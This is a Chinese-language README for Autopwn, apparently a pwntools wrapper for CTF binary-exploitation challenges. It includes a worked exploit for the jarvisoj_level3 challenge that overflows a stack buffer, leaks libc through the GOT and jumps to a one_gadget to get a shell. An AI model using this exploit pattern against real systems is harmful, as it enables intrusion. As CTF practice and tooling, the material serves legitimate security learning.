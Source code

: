 # Autopwn

## 简介

Autopwn项目，致力于提供如下特性：

- 简化exp
- 对pwntools常用功能的更好的包装

目前已经实现的功能：
- 对自定义函数的包装（不完善）
- 使用命令行参数启动脚本，从而实现不同的功能（local run，local debug，remote run）
- 允许用户自定义debug时的gdb脚本，添加了对PIE程序仅使用偏移下断点的支持
- 允许用户自行提供函数封装，并将其添加为tubes的方法，已内置数个别名
- 允许用户更改elf文件的库查找路径与解释器路径（使用patchelf实现）
- 允许用户为当前的elf生成一个可修改的lief Binary对象
- 添加Ubuntu常用库的数据库（ld，libc，libdl）

## 效果图

- 自动生成配置文件
![](https://github.com/CTSinon/Autopwn/blob/master/example/autoconf.gif)

- 搭配emacs的YASnippet插件一键生成exp框架
![](https://github.com/CTSinon/Autopwn/blob/master/example/genexp.gif)

- 一键patchelf
![](https://github.com/CTSinon/Autopwn/blob/master/example/autopatch.gif)

- 自带常用tube方法别名（如rl，sl，ru），一键运行（废话
![](https://github.com/CTSinon/Autopwn/blob/master/example/run.gif)

- 无视PIE，自定义断点，一键调试
![](https://github.com/CTSinon/Autopwn/blob/master/example/autoconf.gif)

- 一键远程连接
![](https://github.com/CTSinon/Autopwn/blob/master/example/remote.gif)

## 安装

### 依赖
- python 2.7 (environment)
- pwntools (module)
- pandas (module)
- lief (module)
- patchelf (application)

### 安装方法

1. `git clone https://github.com/CTSinon/Autopwn.git`
   
2. 将这一行添加到.bashrc中：
`alias gen='python path/to/gen.py`

3. 将autopwn文件夹添加到python的path中

4. 将LIBC文件夹中的ubuntu库放到你喜欢的位置

5. enjoy it!

## 其他

### 栗子🌰

题目链接：https://buuoj.cn/challenges#jarvisoj_level3

```python
from pwn import *
from autopwn.core import pwn
from sys import argv

def leak(self, a):
    pass


# 该函数将会被动态添加到内置的一个类中
# 你可以自由的使用类属性（如当前elf对象）
# 代价仅仅是在参数中添加一个self
def exp(self, a):
    read_got = self.elf.got['read']
    # 这里elf对象是类属性
    write_got = self.elf.got['write']
    write_plt = self.elf.plt['write']
    read_plt = self.elf.plt['read']
    esp_c = 0x080482ee
    read_offset = self.lib[0].symbols['read']
    # lib同样是类属性，是一个存放下面指定的lib对应的elf对象的数组
    one_offset = 0x3a80c

    a.rl()
    # 这是recvline的别名，你可以在less_tube.py中定义你自己的别名
    payload = 'a' * 0x88
    payload += 'a' * 4
    payload += p32(write_plt) + p32(esp_c)
    payload += p32(1) + p32(read_got) + p32(4)
    payload += p32(read_plt) + p32(write_plt)
    payload += p32(0) + p32(write_got) + p32(4)

    a.sl(payload)

    read_addr = unpack(a.recvn(4), 'all')
    a.lg("Got read addr: ", read_addr)
    one_addr = read_addr + one_offset - read_offset

    a.send(p32(one_addr))
    
# 该函数用于getshell之后获取flag
# 一般的题目这样就好
def get_flag(self, a):
    a.interactive()
    return

pwn.ctf(argv, exp, get_flag,
        bp=0x080484a6,
        # 指定断点，开启PIE时使用偏移就好
        inter='../libc6-i386_2.23-0ubuntu10_amd64/ld-2.23.so',
        # 如果你要patch libc的话，一定要指定相应的ld
        needed=['../libc6-i386_2.23-0ubuntu10_amd64/libc-2.23.so'])
        # needed是一个数组，你可以使用它来替换dynamic段中所用needed项（包括大部分动态链接库）
```

### 目录结构

```
.
├── \
├── autopwn
│   ├── awd                       # awd框架，未实现
│   │   ├── attacker.py           # =-=
│   │   ├── attack.py             # =-=
│   │   ├── get_ip.py             # 获取目标列表
│   │   └── __init__.py
│   ├── core
│   │   ├── classes.py            # 存放核心类
│   │   ├── __init__.py
│   │   └── pwn.py                # 主文件
│   ├── ctf
│   │   ├── attack.py             # 主文件
│   │   ├── __init__.py
│   │   ├── less_tube.py          # 为tube类添加更多特性
│   │   └── stack.py              # 栈布局可视化（已废弃）
│   └── __init__.py
├── autopwn.conf                  # 配置文件模版
├── gen.py                        # 生成配置文件
├── README.md
└── test
    ├── flag
    └── payload.py
```

### 碎碎念
- 感谢cnitlrt师傅的支持
- 作者没有专业研究过python这门语言，所以脚本写得一眼难尽。设计模式之类的更是没怎么研究过。希望各路大神能提出更好的建议，添加更方便的功能，大家一起进步呀 (๑•̀ㅂ•́)و✧ 

